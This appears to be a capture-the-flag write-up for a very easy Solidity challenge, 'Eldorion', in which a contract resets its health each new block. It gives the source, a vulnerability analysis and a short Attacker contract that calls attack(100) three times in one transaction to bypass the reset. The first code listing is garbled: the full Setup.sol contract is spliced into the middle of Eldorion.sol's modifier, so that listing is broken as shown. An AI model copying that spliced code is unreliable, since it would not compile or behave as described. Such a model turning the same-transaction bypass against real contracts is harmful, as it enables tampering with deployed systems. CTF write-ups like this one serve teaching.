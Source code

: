 ## Challenge Overview
Level: Very easy

The Eldorion challenge features a smart contract representing a powerful entity with 300 health points.

To solve the challenge, we must defeat Eldorion by reducing its health to exactly zero.
## Source Code
``Eldorion.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract Eldorion {
    uint256 public health = 300;
    uint256 public lastAttackTimestamp;
    uint256 private constant MAX_HEALTH = 300;
    
    event EldorionDefeated(address slayer);
    
    modifier eternalResilience() {
        if (block.timestamp > lastAttackTimestamp) {
            health = MAX_HEALTH;// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

            lastAttackTimestamp = block.timestamp;
        }
        _;
    }
    
    function attack(uint256 damage) external eternalResilience {
        require(damage <= 100, "Mortals cannot strike harder than 100");
        require(health >= damage, "Overkill is wasteful");
        health -= damage;
        
        if (health == 0) {
            emit EldorionDefeated(msg.sender);
        }
    }

    function isDefeated() external view returns (bool) {
        return health == 0;
    }
}
```
``Setup.sol``
```C#
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol";

contract Setup {
    Eldorion public immutable TARGET;
    
    event DeployedTarget(address at);

    constructor() payable {
        TARGET = new Eldorion();
        emit DeployedTarget(address(TARGET));
    }

    function isSolved() public view returns (bool) {
        return TARGET.isDefeated();
    }
}

```

## Vulnerability Analysis

The key vulnerability in the `Eldorion.sol`  contract lies in its `eternalResilience` modifier:

```javascript
modifier eternalResilience() {
    if (block.timestamp > lastAttackTimestamp) {
        health = MAX_HEALTH;
        lastAttackTimestamp = block.timestamp;
    }
    _;
}
```

This modifier resets the health to maximum (300) if a new block timestamp is detected. 

However, multiple function calls within a single transaction share the same block timestamp, creating an exploitation opportunity.

The `attack` function allows us to deal damage up to 100 points per call, and we will call 3 times to reduce heath to exact 0 and get flag.

```solidity
function attack(uint256 damage) external eternalResilience {
    require(damage <= 100, "Mortals cannot strike harder than 100");
    require(health >= damage, "Overkill is wasteful");
    health -= damage;
    
    if (health == 0) {
        emit EldorionDefeated(msg.sender);
    }
}
```

## Exploitation Strategy

The exploit relies on executing multiple attacks within a single transaction to bypass the health reset mechanism. 

Since we need to deal exactly 300 damage and each attack is limited to 100 damage, we need to execute 3 attack calls in one transaction.

### Attack Implementation

Our `Attacker.sol`contract:

```solidity
contract Attacker {
    IEldorion public target;
    
    constructor(address _target) {
        target = IEldorion(_target);
    }
    
    function exploit() external {
        target.attack(100);
        target.attack(100);
        target.attack(100);
    }
}
```

This contract makes three consecutive attack calls within a single function execution as a single transaction. This prevents the `eternalResilience` modifier from resetting health between attacks.

## Execution Steps

1. Deploy the Attacker contract with the Eldorion contract address
2. Call the exploit function, which executes three 100-damage attacks in sequence
3. The Eldorion's health is reduced from 300 → 200 → 100 → 0, defeating it

![image](https://github.com/user-attachments/assets/cbc3fe05-5de7-4749-8044-03426cb46f7f)

